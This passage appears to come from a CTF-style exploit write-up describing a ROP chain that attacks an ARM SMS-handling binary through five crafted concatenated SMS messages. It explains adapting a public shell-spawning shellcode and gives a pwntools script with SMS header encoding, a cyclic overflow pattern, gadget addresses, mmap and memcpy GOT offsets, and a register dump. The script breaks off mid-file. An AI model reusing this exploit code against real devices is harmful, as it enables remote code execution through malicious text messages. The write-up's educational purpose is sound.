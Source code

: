 ```python
```

The other point to keep the chain short was keeping the payload short. We basically used this [`shellcode`]({{"http://shell-storm.org/shellcode/files/shellcode-754.php"|absolute_url}}) with small fixes:
 - we removed instruction that jumps in thumb mode (we can do this directly)
 - we changed "/system/bin/sh" in "/bin/sh"
 - we reduce bytes for the port.

This is the final script that produces 5 SMSes. The last one is the one which triggers the bug so it needs to be the last one.

```python

from pwn import *

def encode_part(ref_num, data, CSMS=0x17, max_part=3):
    assert max_part <= 3
    header = "\x05\x00\x03" + chr(CSMS) + chr(max_part) + chr(ref_num)
    return header+data



c = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa"

#r3 load
# 0x0001275e : ldr r3, [r5, #0x20] ; cmp r3, r4 ; bne #0x12760 ; ldrd r4, r5, [sp] ; add sp, #8 ; pop {r6, pc}
r3load = 0x0001275e
#0x000128fe : pop {r5, pc}
r5pop = 0x000128fe
#0x000118c6 : pop {r4, pc}
r4pop = 0x000118c6
#0x000172a6 : pop {r2, r3, r4, pc}
r234pop = 0x000172a6
#0x00016c12 : pop {r1, r4, pc}
r14pop = 0x00016c12
#0x00015c24 : pop {r0, r3, pc}
r03pop = 0x00015c24
#0x00012b4e : pop {r2, pc}
r2pop = 0x00012b4e
#0x000111c4 : pop {r3, pc} not thumb
r3popnothumb = 0x000111c4
#0x00011f52 : blx r4
blxr4 = 0x00011f52
#       void *mmap(void *addr, size_t len, int prot, int flags, int fildes, off_t off);
mmap = 0x00011240
mmap = 0x00013E0C +1
memcpy = 0x00011410
memcpy_got = 0x000320C0
#0x0001fe36 : add r3, sp, #0x2b8
addr3sp = 0x0001fe36

#0x000176c0 : add r0, sp, #0x1a0 ; movs r1, r0 ; bx lr
#0x000122c0 : ldm.w ip, {r5, sb, sl, lr} ; add sp, #0x10 ; pop {r4, pc}
ctrlr = 0x000122c0
#0x00014b5a : ldr lr, [sp], #4 ; b.w #0x1263e
setlrjmpr3 = 0x00014b5a
"""
Register state when we take control of PC
r0             0x0                 0
r1             0x38024             229412
r2             0x35a70             219760
```